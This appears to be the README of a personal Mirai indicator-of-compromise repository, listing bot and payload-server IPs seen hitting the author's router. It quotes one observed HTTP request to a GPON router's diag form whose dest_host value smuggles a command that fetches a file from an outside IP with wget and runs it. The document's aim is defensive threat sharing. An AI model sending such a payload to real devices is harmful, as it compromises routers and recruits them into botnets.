 # mirai-ioc
Bots hitting my router. IOC list only updated if they are seen.

bots - Bots IPs hitting the router
server - Payload IPs observed

Payload observed

POST./GponForm/diag_Form?style/.HTTP/1.1..User-Agent:.Hello,.World..Accept:.*/*..Accept-Encoding:.gzip,.deflate..Content-Type:.application/x-www-form-urlencoded....XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://38.57.46.116/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0
